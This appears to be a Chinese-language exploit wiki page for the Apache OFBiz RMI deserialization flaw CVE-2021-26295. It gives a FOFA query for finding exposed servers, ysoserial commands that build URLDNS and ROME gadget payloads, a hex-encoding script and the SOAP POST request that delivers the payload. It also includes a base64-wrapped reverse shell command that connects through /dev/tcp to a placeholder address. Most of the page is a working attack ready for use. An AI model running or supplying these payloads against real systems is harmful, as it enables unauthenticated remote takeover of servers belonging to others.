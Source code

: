 ```yaml
---
Title: Apache OFBiz RMI反序列化漏洞 CVE-2021-26295
---
```


# Apache OFBiz RMI反序列化漏洞 CVE-2021-26295

## 漏洞描述

OFBiz是基于Java的Web框架，包括实体引擎，服务引擎和基于小部件的UI。

近日，Apache OFBiz官方发布安全更新。Apache OFBiz 存在RMI反序列化前台命令执行，未经身份验证的攻击者可以使用此漏洞来成功接管Apache OFBiz，建议相关用户尽快测试漏洞修复的版本并及时升级。

## 漏洞影响

<a-checkbox checked>Apache OFBiz < 17.12.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGVfT0ZCaXoi">app="Apache_OFBiz"</a-button>
</a-checkbox>

## 漏洞复现

利用 `ysoserial`生成反序列化数据

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://xxx.xxx.xxx.xxx > payload.txt
```

```python
#!/usr/bin/python
#conding=utf8
import binascii
with open('payload.txt', 'rb') as payload_handle:
   content = payload_handle.read()
str_hex = binascii.hexlify(content)
print(str_hex)
```

发送请求包后查看Dnslog验证漏洞

```
POST /webtools/control/SOAPService 

<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><test:clearAllEntityCaches xmlns:test="http://ofbiz.apache.org/service/"><test:cus-obj>dnslog反序列化数据</test:cus-obj></test:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>
```

反弹Shell可以使用`ROME反序列化链`

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME  "bash -c {echo,xxxxxxxxxxxxxxxxxxxxxxx}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'

bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'   base64加密写入然后执行命令
```

![c3afc0d1-7dc6-4161-a0fd-901797bf1a31](/assets/PeiQi-Wiki/img/c3afc0d1-7dc6-4161-a0fd-901797bf1a31.png)